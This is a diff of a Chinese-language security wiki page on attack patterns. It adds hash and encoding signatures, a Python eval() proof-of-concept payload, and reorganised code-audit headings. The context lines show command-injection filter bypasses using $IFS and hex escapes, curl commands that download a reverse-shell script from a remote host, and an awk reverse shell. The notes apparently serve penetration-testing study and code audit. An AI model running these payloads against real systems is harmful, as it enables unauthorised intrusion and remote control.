

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update attack_pattern.md

````diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -1,4 +1,12 @@
 # attack_pattern
+
+## 特征
+
+- BASE64：包含大小写字母数字+/，以%3D(==)结尾
+- MD5：16字节128bit, 32个十六进制字符
+- SHA1：20字节160bit, 40个十六进制字符，每个十六进制字符代表4bit，40x4=160bit
+- SHA256: 32字节256bit, 64个十六进制字符
+
 
 ## XSS
 
@@ -522,11 +530,12 @@ public interface UserMapper {
 1. 使用`;`, `|`或`&&`直接进行命令拼接
 1. 使用`` USERID=`id -u` ``或`USERID=$(uname -a)`进行命令替换
 1. 如果遇到特殊字符校验
+
+    !!! tip "33种特殊字符`` `~!@#$%^&*()-_=+\|[{}];:'",<.>/?和空格 ``"
+
     1. `/`: 在环境中截取, 如当前路径: `xxx;cc=$(pwd);ff=${cc:0:1};mkdir $(ff)tmp$(ff)hackfile;`
     1. 空格: 使用特殊变量替换: `$ a=$(curl$IFS"http://10.74.201.219:8888/")`
     1. `;`: 使用十六进制替换: `a=$'\x3b'; echo $a`, 这种方式会被当做字符串来执行
-
-    !!! tip "33种特殊字符`` `~!@#$%^&*()-_=+\|[{}];:'",<.>/?和空格 ``"
 
 1. 如果对特殊字符校验无法 {==反弹shell==}, 可分拆两步
     1. 上传反弹shell脚本, 保存到指定路径: `xxx$(curl$IFS-o"/tmp/hhack.pl"$IFS"http://x.x.x.x:8888/hhack.pl")`
@@ -604,7 +613,9 @@ $ awk 'BEGIN{s="/inet/tcp/0/192.168.1.128/8080";for(;s|&getline c;close(c))while
 !!! quote "参考链接: [你和目标只差一个shell的距离](https://klionsec.github.io/2016/09/27/revese-shell/)"
 
 
-### Java
+### 代码审计
+
+#### Java
 
 ```java
 import java.io.IOException;
@@ -632,15 +643,19 @@ public class OSi {
 
 !!! success "如果传入String[]且第一个元素不是`/bin/sh`, 则不存在命令注入"
 
-### Python格式化字符串漏洞
+#### Python
+
+调用`eval()`, 验证POC: `__import__(%27os%27).system(%27touch%20/tmp/hackkk.sh%27)`
+
+##### 格式化字符串漏洞
 
 !!! quote "[格式化字符串](../../coding/python/0x01_datatype/#_3)"
 
-### Go
+#### Go
 
 !!! quote "[OS命令注入](../../coding/go/go%E8%AF%AD%E8%A8%80%E5%AE%89%E5%85%A8%E7%BC%96%E7%A8%8B/#os)"
 
-### Perl
+#### Perl
 
 - system()
 
````
Also changed, not shown: other parts of docs/security/attack_pattern.md (+1 -1 lines).
